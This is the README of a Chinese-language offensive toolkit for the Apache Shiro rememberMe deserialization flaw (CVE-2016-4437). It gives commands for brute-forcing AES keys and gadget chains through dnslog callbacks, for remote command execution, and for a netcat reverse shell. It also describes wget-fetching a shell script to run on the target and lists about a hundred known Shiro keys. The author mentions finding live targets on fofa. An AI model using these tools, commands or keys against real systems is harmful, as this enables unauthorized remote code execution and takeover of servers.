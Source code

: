 ## Awesome-shiro

CVE-2016-4437 Shiro&lt;=1.2.4反序列化，爆破模块和key、代码执行、反弹shell的工具

----

## 漏洞原因
因为shiro对cookie里的rememberme字段进行了反序列化，所以如果知道了shiro的编码方式，然后将恶意命令用它的编码方式进行编码并放在http头的cookie里，在shiro对提交的cookie的rememberme字段进行反序列化时，也就执行了插入的命令，最终造成了命令执行

shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：
`得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化 `

## 环境
linux/win10 均可                 
python2/python3 均可          
由于module下有ysoserial.jar 所以项目略大，多多包涵
## 本地搭建靶场
```
docker pull medicean/vulapps:s_shiro_1
docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
## 脚本使用
#### 1、shiro_crack.py 爆破模块使用
需要结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do 1695jb.dnslog.cn
```
成功后查看记录-记录格式为 {{key}}.{{module}}.dnslogurl
```
U3ByaW5nQmxhZGUAAAAAAA.CommonsBeanutils1.x9zm4v.dnslog.cn
```
可知成功的key为`U3ByaW5nQmxhZGUAAAAAAA==`,模块为`CommonsBeanutils1`
因为key中包含==/+等符号，本项目会转义一丢丢。需自行对比附录1的key
fofa上找一个玩玩
![](./img/1.png)
![](./img/2.png)
##### shiro_crack.py 原理
其实网上有很多爆破模块和key的工具，但是爆破成功后一般只是打通，并不知道模块和key是什么，因为对于无回显的rce，无论通没通，响应码均为200。
本项目通过爆破模块和key结合dnslog间接获取成功的key和模块，原理即为DNSlog的内涵，Dns在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信息。

### 2、shiro_rce.py rce使用
可结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do "ping rcetest.x9zm4v.dnslog.cn"
```
dnslog查看到`ping rcetest.x9zm4v.dnslog.cn` 为了区分，建议用更低一级的域名
#### shiro_rce 配置
1、配置模块
需要将第13行 
``` popen = subprocess.Popen(['java', '-jar', '../module/ysoserial.jar', 'CommonsBeanutils1', command], stdout=subprocess.PIPE)```其中的CommonsBeanutils1改为爆破成功用的模块
2、配置key
将第16行

 ```
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") 
```

改成爆破成功的key
fofa上找一个玩
![](./img/3.png)
![](./img/4.png)

### 3、shiro_getshell 反弹shell
```
nc -lvnp 7777
python3 shiro_exp.py -u {{攻击的靶机}} -lh {{反弹shell的ip}} -lp {{反弹shell的端口}}
```
为了安全，还是打本地
原理即是把JRMPListener和payload打包丢一起了，其实讲道理可以不用jrmplistener


#### shiro_getshell测试：

![](./img/5.png)

---
一点小想法
既然可以出网，为啥不能直接用shiro_rec,`bash反弹shell`嘞
试过几次失败，我感觉是shiro有啥过滤，但是我发现可以先wget下载一个反弹shell的sh脚本，然后sh执行
参考[自己不用jrmplistener反弹shell的一点小研究](https://st4ck.gitee.io/2020/04/24/apache-shiro-1-2-4-fan-xu-lie-hua-lou-dong-cve-2016-4437-fu-xian-yu-dao-de-keng/)

---

### 4、fuzz-shiro
根据请求头，响应头做一个简单的测试

## 常见问题
### 1、win10下运行时出现 No module named 'Crypto'
运行如下命令：
```
pip uninstall crypto pycryptodome
pip install pycryptodome
```
python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

## 附录1、shiro常用key
```
kPH+bIxk5D2deZiIxcaaaA==
4AvVhmFLUs0KTA3Kprsdag==
Z3VucwAAAAAAAAAAAAAAAA==
fCq+/xW488hMTCD+cmJ3aQ==
0AvVhmFLUs0KTA3Kprsdag==
1AvVhdsgUs0FSA3SDFAdag==
1QWLxg+NYmxraMoxAXu/Iw==
25BsmdYwjnfcWmnhAciDDg==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
3JvYhmBLUs0ETA5Kprsdag==
r0e3c16IdVkouZgk1TKVMg==
5aaC5qKm5oqA5pyvAAAAAA==
5AvVhmFLUs0KTA3Kprsdag==
6AvVhmFLUs0KTA3Kprsdag==
6NfXkC7YVCV5DASIrEm1Rg==
6ZmI6I2j5Y+R5aSn5ZOlAA==
cmVtZW1iZXJNZQAAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
8AvVhmFLUs0KTA3Kprsdag==
8BvVhmFLUs0KTA3Kprsdag==
9AvVhmFLUs0KTA3Kprsdag==
OUHYQzxQ/W9e/UjiAGu6rg==
a3dvbmcAAAAAAAAAAAAAAA==
aU1pcmFjbGVpTWlyYWNsZQ==
bWljcm9zAAAAAAAAAAAAAA==
bWluZS1hc3NldC1rZXk6QQ==
bXRvbnMAAAAAAAAAAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
wGiHplamyXlVB11UXWol8g==
U3ByaW5nQmxhZGUAAAAAAA==
MTIzNDU2Nzg5MGFiY2RlZg==
L7RioUULEFhRyxM7a2R/Yg==
a2VlcE9uR29pbmdBbmRGaQ==
WcfHGU25gNnTxTlmJMeSpw==
OY//C4rhfwNxCQAQCrQQ1Q==
5J7bIJIV0LQSN3c9LPitBQ==
f/SY5TIve5WWzT4aQlABJA==
bya2HkYo57u6fWh5theAWw==
WuB+y2gcHRnY2Lg9+Aqmqg==
kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
3qDVdLawoIr1xFd6ietnwg==
ZWvohmPdUsAWT3=KpPqda
YI1+nBV//m7ELrIyDHm6DQ==
6Zm+6I2j5Y+R5aS+5ZOlAA==
2A2V+RFLUs+eTA3Kpr+dag==
6ZmI6I2j3Y+R1aSn5BOlAA==
SkZpbmFsQmxhZGUAAAAAAA==
2cVtiE83c4lIrELJwKGJUw==
fsHspZw/92PrS3XrPW+vxw==
XTx6CKLo/SdSgub+OPHSrw==
sHdIjUN6tzhl8xZMG3ULCQ==
O4pdf+7e+mZe8NyxMTPJmQ==
HWrBltGvEZc14h9VpMvZWw==
rPNqM6uKFCyaL10AK51UkQ==
Y1JxNSPXVwMkyvES/kJGeQ==
lT2UvDUmQwewm6mMoiw4Ig==
MPdCMZ9urzEA50JDlDYYDg==
xVmmoltfpb8tTceuT5R7Bw==
c+3hFGPjbgzGdrC+MHgoRQ==
ClLk69oNcA3m+s0jIMIkpg==
Bf7MfkNR0axGGptozrebag==
1tC/xrDYs8ey+sa3emtiYw==
ZmFsYWRvLnh5ei5zaGlybw==
cGhyYWNrY3RmREUhfiMkZA==
IduElDUpDDXE677ZkhhKnQ==
yeAAo1E8BOeAYfBlm4NG9Q==
cGljYXMAAAAAAAAAAAAAAA==
2itfW92XazYRi5ltW0M2yA==
XgGkgqGqYrix9lI6vxcrRw==
ertVhmFLUs0KTA3Kprsdag==
5AvVhmFLUS0ATA4Kprsdag==
s0KTA3mFLUprK4AvVhsdag==
hBlzKg78ajaZuTE0VLzDDg==
9FvVhtFLUs0KnA3Kprsdyg==
d2ViUmVtZW1iZXJNZUtleQ==
yNeUgSzL/CfiWw1GALg6Ag==
NGk/3cQ6F5/UNPRh8LpMIg==
4BvVhmFLUs0KTA3Kprsdag==
MzVeSkYyWTI2OFVLZjRzZg==
CrownKey==a12d/dakdad
empodDEyMwAAAAAAAAAAAA==
A7UzJgh1+EWj5oBFi+mSgw==
YTM0NZomIzI2OTsmIzM0NTueYQ==
c2hpcm9fYmF0aXMzMgAAAA==
i45FVt72K2kLgvFrJtoZRw==
U3BAbW5nQmxhZGUAAAAAAA==
ZnJlc2h6Y24xMjM0NTY3OA==
Jt3C93kMR9D5e8QzwfsiMw==
MTIzNDU2NzgxMjM0NTY3OA==
vXP33AonIp9bFwGl7aT7rA==
V2hhdCBUaGUgSGVsbAAAAA==
Z3h6eWd4enklMjElMjElMjE=
Q01TX0JGTFlLRVlfMjAxOQ==
ZAvph3dsQs0FSL3SDFAdag==
Is9zJ3pzNh2cgTHB4ua3+Q==
NsZXjXVklWPZwOfkvk6kUA==
GAevYnznvgNCURavBhCr1w==
66v1O8keKNV3TTcGPK1wzg==
SDKOLKn2J1j/2BHjeZwAoQ==
```

